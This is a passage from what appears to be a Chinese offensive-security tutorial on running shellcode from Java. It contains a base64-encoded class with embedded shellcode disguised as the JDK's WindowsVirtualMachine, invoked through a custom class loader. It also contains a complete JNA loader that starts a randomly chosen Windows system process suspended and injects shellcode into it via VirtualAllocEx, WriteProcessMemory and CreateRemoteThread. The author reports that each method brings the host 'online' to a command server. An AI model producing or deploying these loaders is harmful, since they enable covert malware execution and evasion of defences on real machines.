            String classStr="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";
            Class result = new Myloader().get(Base64.getDecoder().decode(classStr));
            for (Method m:result.getDeclaredMethods())
            {
                System.out.println(m.getName());
                if (m.getName().equals("run"))
                {
                    m.invoke(result,new byte[]{});
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```







使用jsp加载 shell自定义shellcode



测试一下。



然后发现可以上线。



## 方法4：使用Graalvm加载Shellcode

GraalVM 是一个高性能的多语言虚拟机，旨在提供对多种编程语言的支持，包括 Java、JavaScript、Ruby、R 和其他语言。它的核心优势在于能够通过共享运行时和优化技术来提高应用程序的性能。  
GraalVM 的主要特点包括：

1. 多语言支持：允许开发者在同一个应用程序中混合使用不同的编程语言。
2. 高性能编译器：基于 Graal 编译器的优化技术，提供即时编译（JIT）和提前编译（AOT），从而提高运行时性能。
3. 原生镜像：通过 GraalVM 的原生镜像功能，可以将 Java 应用程序编译成独立的可执行文件，减少启动时间和内存占用。
4. 互操作性：不同语言之间可以无缝调用，增强了代码的复用性和灵活性。
5. 工具集成：GraalVM 提供了丰富的工具支持，包括调试、性能评测等功能，帮助开发者更好地开发和优化应用程序。



### 环境配置：

下载地址：<https://github.com/graalvm/graalvm-ce-builds/releases>  
● PATH：安装目录下的/bin文件  
● JAVA\_HOME：安装目录  
设置好之后，运行java -version查看Graalvm是否安装成功



配置环境变量。





然后测试，发现成功安装



编写测试木马文件

```
package executeCode;

import com.sun.jna.Memory;
import com.sun.jna.Native;
import com.sun.jna.Pointer;
import com.sun.jna.platform.win32.Kernel32;
import com.sun.jna.platform.win32.WinBase;
import com.sun.jna.platform.win32.WinDef;
import com.sun.jna.platform.win32.WinNT;
import com.sun.jna.platform.win32.WinNT.HANDLE;
import com.sun.jna.ptr.IntByReference;
import com.sun.jna.win32.StdCallLibrary;
import com.sun.jna.win32.W32APIOptions;

import java.util.Random;

public class Jna {
    static byte shellcode[] = new byte[]   //pop calc.exe x64
            {

            };


    static Kernel32 kernel32;
    static IKernel32 iKernel32;
    public static String[] ProcessArrayx32 = {"C:\\Windows\\SysWOW64\\ARP.exe", "C:\\Windows\\SysWOW64\\at.exe", "C:\\Windows\\SysWOW64\\auditpol.exe", "C:\\Windows\\SysWOW64\\bitsadmin.exe", "C:\\Windows\\SysWOW64\\bootcfg.exe", "C:\\Windows\\SysWOW64\\ByteCodeGenerator.exe", "C:\\Windows\\SysWOW64\\cacls.exe", "C:\\Windows\\SysWOW64\\chcp.com", "C:\\Windows\\SysWOW64\\CheckNetIsolation.exe", "C:\\Windows\\SysWOW64\\chkdsk.exe", "C:\\Windows\\SysWOW64\\choice.exe", "C:\\Windows\\SysWOW64\\cmdkey.exe", "C:\\Windows\\SysWOW64\\comp.exe", "C:\\Windows\\SysWOW64\\diskcomp.com", "C:\\Windows\\SysWOW64\\Dism.exe", "C:\\Windows\\SysWOW64\\esentutl.exe", "C:\\Windows\\SysWOW64\\expand.exe", "C:\\Windows\\SysWOW64\\fc.exe", "C:\\Windows\\SysWOW64\\find.exe", "C:\\Windows\\SysWOW64\\gpresult.exe"};
    public static String[] ProcessArrayx64 = {"C:\\Windows\\System32\\rundll32.exe", "C:\\Windows\\System32\\find.exe", "C:\\Windows\\System32\\notepad.exe", "C:\\Windows\\System32\\ARP.EXE"};

    static {
        kernel32 = (Kernel32) Native.loadLibrary(Kernel32.class, W32APIOptions.UNICODE_OPTIONS);
        iKernel32 = (IKernel32) Native.loadLibrary("kernel32", IKernel32.class);
    }


    public static void main(String[] args) {
        Jna jnaLoader = new Jna();
        boolean is64 = true;

        System.out.println("\nShellcode: \n" + shellcode);
        jnaLoader.loadShellCode(shellcode, is64);
    }

    public void loadShellCode(byte[] shellcodeHex, boolean is64) {

        String[] targetProcessArray = null;
        // java是64位且选择注入64位shellcode
        if (System.getProperty("sun.arch.data.model").equals("64") && is64) {
            targetProcessArray = ProcessArrayx64;
        } else { //默认注入32位进程
            targetProcessArray = ProcessArrayx32;
        }
        int j = targetProcessArray.length;
        byte b = 0;
        Random random = new Random();
        int k = b + random.nextInt(j);
        String targetProcess = targetProcessArray[k];
        this.loadShellCode(shellcodeHex, targetProcess);

    }

    public void loadShellCode(byte[] shellcodeByte, String targetProcess) {
        System.out.println("targetProcess: " + targetProcess);
        int shellcodeSize = shellcodeByte.length;
        IntByReference intByReference = new IntByReference(0);
        Memory memory = new Memory((long) shellcodeSize);

        for (int j = 0; j < shellcodeSize; ++j) {
            memory.setByte((long) j, shellcodeByte[j]);
        }

        WinBase.PROCESS_INFORMATION pROCESS_INFORMATION = new WinBase.PROCESS_INFORMATION();
        WinBase.STARTUPINFO sTARTUPINFO = new WinBase.STARTUPINFO();
        sTARTUPINFO.cb = new WinDef.DWORD((long) pROCESS_INFORMATION.size());
        if (kernel32.CreateProcess(targetProcess, (String) null, (WinBase.SECURITY_ATTRIBUTES) null, (WinBase.SECURITY_ATTRIBUTES) null, false, new WinDef.DWORD(4L), (Pointer) null, (String) null, sTARTUPINFO, pROCESS_INFORMATION)) {
            Pointer pointer = iKernel32.VirtualAllocEx(pROCESS_INFORMATION.hProcess, Pointer.createConstant(0), shellcodeSize, 4096, 64);
            iKernel32.WriteProcessMemory(pROCESS_INFORMATION.hProcess, pointer, memory, shellcodeSize, intByReference);
            HANDLE hANDLE = iKernel32.CreateRemoteThread(pROCESS_INFORMATION.hProcess, (Object) null, 0, pointer, 0, 0, (Object) null);
            kernel32.WaitForSingleObject(hANDLE, -1);
        }
    }

    interface IKernel32 extends StdCallLibrary {
        Pointer VirtualAlloc(Pointer var1, int var2, int var3, int var4);

        HANDLE CreateThread(Object var1, int var2, Pointer var3, int var4, int var5, Object var6);

        Pointer VirtualAllocEx(HANDLE var1, Pointer var2, int var3, int var4, int var5);

        HANDLE CreateRemoteThread(HANDLE var1, Object var2, int var3, Pointer var4, int var5, int var6, Object var7);

        boolean WriteProcessMemory(WinNT.HANDLE param1HANDLE, Pointer param1Pointer1, Pointer param1Pointer2, int param1Int, IntByReference param1IntByReference);

        boolean ReadProcessMemory(Pointer var1, int var2, Pointer var3, int var4, IntByReference var5);

        int VirtualQueryEx(Pointer var1, Pointer var2, Pointer var3, int var4);

        Pointer OpenProcess(int var1, boolean var2, int var3);

        Pointer GetCurrentProcess();
    }
}
```

然后编译之后，运行成功上线。



REF：  
<https://github.com/graalvm/graalvm-ce-builds/releases>  
<https://www.cnblogs.com/wh4am1/p/17060912.html>
